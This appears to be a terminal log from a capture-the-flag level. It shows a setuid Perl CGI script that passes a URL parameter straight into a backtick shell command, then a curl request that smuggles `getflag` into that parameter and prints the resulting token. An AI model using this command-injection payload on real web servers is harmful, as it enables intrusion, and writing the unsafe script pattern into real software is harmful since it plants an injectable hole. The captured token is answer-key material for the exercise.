 $ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile

$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));


$ curl -I localhost:4747
HTTP/1.1 200 OK
Date: Sat, 20 Jul 2024 15:53:54 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1
Content-Type: text/html

$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 08:00:27:60:db:fc brd ff:ff:ff:ff:ff:ff
    inet 10.14.53.153/16 brd 10.14.255.255 scope global eth3
    inet6 fe80::a00:27ff:fe60:dbfc/64 scope link 
       valid_lft forever preferred_lft forever


$ curl '10.14.53.153:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
